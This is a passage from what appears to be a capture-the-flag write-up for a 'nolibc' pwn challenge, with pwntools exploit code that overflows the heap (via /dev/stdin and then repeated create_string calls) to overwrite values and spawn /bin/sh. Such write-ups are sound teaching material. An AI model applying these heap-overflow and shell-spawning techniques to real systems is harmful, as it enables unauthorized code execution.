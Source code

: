 ```python
p.sendlineafter(b"Choose an option", b"5")
p.sendlineafter(b"filename:", b"/dev/stdin")

payload = b"a" * 0x3f30
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x3b)
p.sendline(payload)

p.sendlineafter(b"Choose an option", b"5")
p.sendline(b"/bin/sh")
```

Unfortunately, this solution only works on local. On remote, the binary can't
access `/dev/stdin` or any of the other alternatives (I tried `/proc/self/fd/0`,
`/dev/tty` etc), so we can't read in the overflow directly like that :(

I probably overthought this solution anyway...

---

### create_string method

The other alternative is to simply use `create_string` to overflow the heap
directly. After registering, the size of `forest_chunk` is still `0xbf80`. From
`create_string`, we can fill up the heap with `0xbf * 0x100` chunks. The last
chunk left, `0x80`, will be used to overflow.

Note that we need to make a bit of space for the `malloc(0x20)` call when
reading in the filename, if not the program will crash.


```python
for i in range(0xbf):
    print(i)
    create_string(0xef, b"asdf")

payload = b"a"*0x70
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x3b)
payload += p32(0x3)
create_string(0x7f, payload)

# make space
delete_string(0)

p.sendlineafter(b"Choose an option", b"5")
p.sendline(b"/bin/sh")
```

When running my exploit on remote, I realized how slow it was:

![A taste of things to come](/images/posts/sekai-2024/nolibc-super_slow.gif)
